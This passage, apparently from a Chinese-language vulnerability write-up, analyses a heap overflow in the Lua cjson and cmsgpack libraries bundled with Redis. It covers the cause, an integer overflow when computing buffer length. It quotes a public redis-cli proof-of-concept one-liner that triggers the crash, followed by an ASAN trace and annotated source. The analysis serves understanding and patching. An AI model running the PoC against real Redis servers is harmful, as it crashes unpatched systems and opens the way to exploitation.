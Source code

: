 ## PoC  
  
公开PoC来自披露者的博客[4]，对于cjson功能，需要构造一个大小为 (2^31 - 2)/6 的字符串来触发堆溢出。  
  
  
```
src/redis-cli eval "local str = string.rep('a',(0x80000000 - 2) / 6); cjson.encode(str) " 0
```  
  
  
  
ASAN追踪漏洞，发现在strbuf.h:124触发了堆溢出。  
  
  
```
==22686==ERROR: AddressSanitizer: heap-buffer-overflow#0 0x560308715d25 in strbuf_append_char_unsafe /opt/redis-7.0.11/deps/lua/src/strbuf.h:124#1 0x560308715d25 in json_append_string /opt/redis-7.0.11/deps/lua/src/lua_cjson.c:484#2 0x56030871a0c9 in json_encode /opt/redis-7.0.11/deps/lua/src/lua_cjson.c:723#3 0x5603086dfafd in luaD_precall /opt/redis-7.0.11/deps/lua/src/ldo.c:320#4 0x560308702b88 in luaV_execute /opt/redis-7.0.11/deps/lua/src/lvm.c:593#5 0x5603086e10e4 in luaD_call /opt/redis-7.0.11/deps/lua/src/ldo.c:378#6 0x5603086de251 in luaD_rawrunprotected /opt/redis-7.0.11/deps/lua/src/ldo.c:116#7 0x5603086e15d2 in luaD_pcall /opt/redis-7.0.11/deps/lua/src/ldo.c:464#8 0x5603086d80a5 in lua_pcall /opt/redis-7.0.11/deps/lua/src/lapi.c:827#9 0x5603086a120c in luaCallFunction /opt/redis-7.0.11/src/script_lua.c:1678#10 0x56030859f4dd in evalGenericCommand /opt/redis-7.0.11/src/eval.c:553#11 0x56030859f6c1 in evalCommand /opt/redis-7.0.11/src/eval.c:563#12 0x56030844c8c4 in call /opt/redis-7.0.11/src/server.c:3385
```  
  
  
  
对于cmsgpack功能，则需要构造一个大小为 2^63 的字符串才能触发堆溢出，对于现阶段来说不太现实。  
  
  
```
src/redis-cli eval "local str = string.rep('a',2^63); cmsgpack.pack(str) " 0
```  
  
##   
## 漏洞成因  
  
首先分析cjson的堆溢出。定位到strbuf.h:124，可以发现溢出发生在类型为strbuf_t的变量中。  
  
  
```
staticinline voidstrbuf_append_char_unsafe(strbuf_t *s, constchar c){    # 堆溢出，strbuf.h:124→   s->buf[s->length++] = c;}
```  
  
  
  
再向上追踪，发现lua_cjson.c:484调用了触发堆溢出的strbuf_append_char_unsafe。json作为第一个参数传递给strbuf_append_char_unsafe，发生了溢出。再往上寻找作用于json的代码逻辑，发现调用了strbuf_ensure_empty_length来保证长度正确，初步判断是这里发生了整型溢出。  
  
  
```
staticvoidjson_append_string(lua_State *l, strbuf_t *json, int lindex){constchar *escstr;int i;constchar *str;size_t len;    str = lua_tolstring(l, lindex, &len);    # 整型溢出→   strbuf_ensure_empty_length(json, len * 6 + 2);strbuf_append_char_unsafe(json, '\"');for (i = 0; i < len; i++) {        escstr = char2escape[(unsignedchar)str[i]];if (escstr)strbuf_append_string(json, escstr);else            # 调用触发了堆溢出，lua_cjson.c:484        →   strbuf_append_char_unsafe(json, str[i]);    }strbuf_append_char_unsafe(json, '\"');}
```  
  